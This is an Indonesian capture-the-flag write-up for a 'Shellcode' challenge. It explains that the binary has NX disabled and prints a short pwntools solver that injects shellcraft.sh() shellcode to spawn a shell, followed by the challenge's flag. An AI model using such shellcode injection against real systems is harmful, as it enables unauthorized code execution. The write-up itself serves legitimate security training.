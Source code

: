 # Shellcode 
> Could you execute some shell on this shellcode tester app with no restriction?
```console
nc 103.167.136.89 10023
```

1. Pada challenge ini diberikan sebuah binary file dengan arsitektur 64 bit dan tidak di strip.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/6423a7a3-79ba-4d31-90bd-b1e72addda3f)


2. Langsung saja kita cek binary protectionnya:

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/33a6c627-48bc-4c42-8efb-16496abb2899)


3. Hal yang unik disini, kali ini NX disabled yang berarti arbitrary code yang kita masukan dapat tereksekusi di stack, dengan demikian kita bisa melakukan shellcode injection.
4. Langsung saja kita decompile file binary untuk mengidentifikasi kerentanan:


> Fungsi main()

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/1d8152e9-7660-45c6-8d7a-cfcf6984e370)


5. Tidak ditemukan adanay bufferoverflow pada fungsi main(), akan tetapi input user diterima ke dalam stack (stdin).

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/661b0313-754a-482b-86e7-cc6169e86fb2)


6. Seharusnya space pada stack cukup untuk memasukan shellcode, daripada mencari shellcode untuk spawn shell melalui website -> shell-storm.org.
7. Saya menggunakan shellcraft.sh() yang tersedia di pwntools.
8. Berikut adalah solver yang saya gunakan:

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

sh.sendlineafter(b':', asm(shellcraft.sh()))
sh.interactive()
```

9. Langsung saja kita test secara lokal:

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/80b9a8a9-2722-4cc8-9255-0091c3584caf)


10. Shell berhasil di dapat, langsung saja kita send script remotely.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/7a3b8740-7800-4c89-b02a-198e8264a90d)

Flag yang didapat :
```console
ForestyHC{first_time_write_ur_own_shellcode?_92fab2}
```
